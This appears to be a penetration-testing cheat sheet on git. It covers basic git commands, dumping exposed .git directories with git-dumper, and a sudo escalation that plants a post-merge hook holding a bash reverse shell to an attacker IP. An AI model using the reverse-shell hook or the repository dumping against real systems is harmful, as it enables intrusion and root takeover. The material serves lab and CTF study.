 ```yaml
---
title: "git"
date: 2024-6-28
tags: ["Git", "Git-Dumper", "Sudo", "Enumeration", "Web Exploitation"]
---
```


### Basic Commands

```console
# Show status
git status
```

```console
# Reset the current branch to a previous commit
git reset --hard
```

```console
# Show information about files
git ls-files --stage
```

```console
# Show current branch
git branch
```

```console
# Show commits
git log <BRANCH_NAME> --oneline
```

```console
# Show diff, a and b are commit hash
# a is the older commit
git diff <A_COMMIT_HASH> <B_COMMIT_HASH>
```

```console
# Show commit
git show <COMMIT_HASH>
```

---

### Git Tools

{{< tab set1 tab1 active >}}git-dumper{{< /tab >}}
{{< tab set1 tab2 >}}git-bundle{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
git-dumper <TARGET>/.git result/
```

<small>*Ref: [Download git-dumper](https://github.com/arthaud/git-dumper)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# List all bundles
find . -type f -exec file {} \;
```

```console
# Get bundle
git clone -b master @hashed/ab/cd/<HASH>.bundle
```

{{< /tabcontent >}}

---

### SUDO

```console
# Copy target project
cp -r /var/www/html/project .
```

```console
# Create a malicious post-merge
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/<LOCAL_IP>/<LOCAL_PORT> 0>&1' > ./project/.git/hooks/post-merge
```

```console
# Run
sudo /usr/bin/git pull
```

<small>*Note: Make changes to the project to make the pull work*</small>
